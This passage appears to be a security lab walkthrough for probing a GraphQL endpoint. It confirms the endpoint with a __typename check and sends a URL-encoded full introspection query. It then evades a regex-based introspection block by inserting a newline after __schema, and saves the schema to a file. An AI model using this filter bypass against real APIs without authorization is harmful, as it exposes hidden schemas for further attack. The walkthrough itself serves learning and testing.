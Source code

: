 > The below response validate the _**identity**_ of GraphQL endpoint:

```JSON
{
  "data": {
	"__typename": "query"
  }
}
```

> Check introspection, with new request URL-encoded introspection query as a query parameter.

```HTML
/api?query=query+IntrospectionQuery+%7B%0D%0A++__schema+%7B%0D%0A++++queryType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++mutationType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++subscriptionType+%7B%0D%0A++++++name%0D%0A++++%7D%0D%0A++++types+%7B%0D%0A++++++...FullType%0D%0A++++%7D%0D%0A++++directives+%7B%0D%0A++++++name%0D%0A++++++description%0D%0A++++++args+%7B%0D%0A++++++++...InputValue%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+FullType+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++description%0D%0A++fields%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++args+%7B%0D%0A++++++...InputValue%0D%0A++++%7D%0D%0A++++type+%7B%0D%0A++++++...TypeRef%0D%0A++++%7D%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++inputFields+%7B%0D%0A++++...InputValue%0D%0A++%7D%0D%0A++interfaces+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++enumValues%28includeDeprecated%3A+true%29+%7B%0D%0A++++name%0D%0A++++description%0D%0A++++isDeprecated%0D%0A++++deprecationReason%0D%0A++%7D%0D%0A++possibleTypes+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A%7D%0D%0A%0D%0Afragment+InputValue+on+__InputValue+%7B%0D%0A++name%0D%0A++description%0D%0A++type+%7B%0D%0A++++...TypeRef%0D%0A++%7D%0D%0A++defaultValue%0D%0A%7D%0D%0A%0D%0Afragment+TypeRef+on+__Type+%7B%0D%0A++kind%0D%0A++name%0D%0A++ofType+%7B%0D%0A++++kind%0D%0A++++name%0D%0A++++ofType+%7B%0D%0A++++++kind%0D%0A++++++name%0D%0A++++++ofType+%7B%0D%0A++++++++kind%0D%0A++++++++name%0D%0A++++++%7D%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D%0D%0A
```

> Bypass introspection protection matching the **regex** filters, and modify the query to include a `%0a` newline character after `__schema` and resend.

> Save the introspection response to file as `graphql.json`, and remove HTTP headers from the saved response file leaving only body.

